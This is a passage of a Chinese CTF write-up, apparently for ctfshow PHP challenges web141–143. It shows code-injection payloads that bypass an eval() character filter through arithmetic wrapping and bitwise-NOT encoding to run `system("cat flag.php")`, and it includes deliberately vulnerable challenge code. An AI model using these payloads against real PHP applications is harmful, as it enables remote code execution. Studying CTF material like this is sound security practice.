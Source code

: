 

![](https://img.npfs06.top/20210306234649.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

接下来再来说说怎么绕过`eval("return $v1$v3$v2;");`

我们看下面这个小例子

>1system("ls");      error不会执行
> 1+system("ls");    Warning 会执行

![](https://img.npfs06.top/20210306234347.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

这是php中一个有意思的地方，数字是可以和命令进行一些运算的，例如 `1+phpinfo();`是可以执行phpinfo()命令的, 命令前加一些 + - * / 之类的都可以成功命令执行,。所以我们只要构造`1*system("cat flag.php")*1`即可读取flag （这里不用加号是因为会被解析成空格）

payload：

```
?v1=1&v2=1&v3=*(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)*
```



## web142

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}

```

0和任何数字相乘都为0

payload

```
?v1=0
```

## web143

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
